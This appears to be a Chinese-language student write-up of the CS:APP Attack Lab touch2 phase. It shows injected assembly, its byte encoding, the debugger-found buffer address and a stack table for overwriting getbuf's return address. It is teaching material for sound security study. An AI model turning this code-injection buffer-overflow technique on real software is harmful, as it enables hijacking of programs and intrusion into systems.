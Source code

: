 

#### 解题过程

**思路：**

- **利用缓冲区溢出修改 getbuf 的返回地址为注入代码的地址**

- **在注入代码中，将自己的 cookie 传入 %rdi 作为参数，再利用 ret 跳转到touch2** 

查看 touch2 的起始地址，为 0x4017ec。首先编写 injected code 的指令 inst.12.s：

```assembly
movl    $0x59b997fa,%edi        # 设置 touch2 的参数 val 为 cookie
pushq   $0x4017ec               # 压入 touch2 的起始地址
retq                            # 弹出 touch2 的起始地址赋值给 PC
```

运行命令 `gcc -c inst.12.s` 得到 isnt.12.o，然后运行 `objdump -d inst.12.o > inst.12.d` ，查看 inst.12.d 得到该指令的字节序列：bf fa 97 b9 59 68 ec 17 40 00 c3。

<img src="https://gitee.com/dq-agj/imags/raw/master/img/image-20230817174108223.png" alt="image-20230817174108223" style="zoom:80%;" />

注入代码在缓冲区中，为了让机器执行注入代码，需要跳转到注入代码的位置，缓。这里需要实际跑一次程序来查看冲区地址，在 0x4017ac 处下断点，在 getbuf 中查看 %rsp 的值，是 0x5561dc78。

![image-20230817175423358](https://gitee.com/dq-agj/imags/raw/master/img/image-20230817175423358.png)

期望 getbuf 返回前应该达到的栈空间状态如下：

<table border="1" style="width:30%; text-align:center; margin:auto">
    <tr height="40">
        <td><b>栈</b></td>
        <td colspan="2"><b>栈地址</b></td>
    </tr>
    <tr height="40">
        <td colspan="2">0x5561dc78</td>
        <td>0x5561dca0</td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
        <td>0x5561dc98</td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
        <td>0x5561dc90</td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
        <td>0x5561dc88</td>
    </tr>
    <tr height="40">
        <td colspan="2">0xc30040</td>
        <td>0x5561dc80</td>
    </tr>
    <tr height="40">
        <td colspan="2">0x17ec6859b997fabf</td>
        <td>0x5561dc78=%rsp</td>
    </tr>
</table>
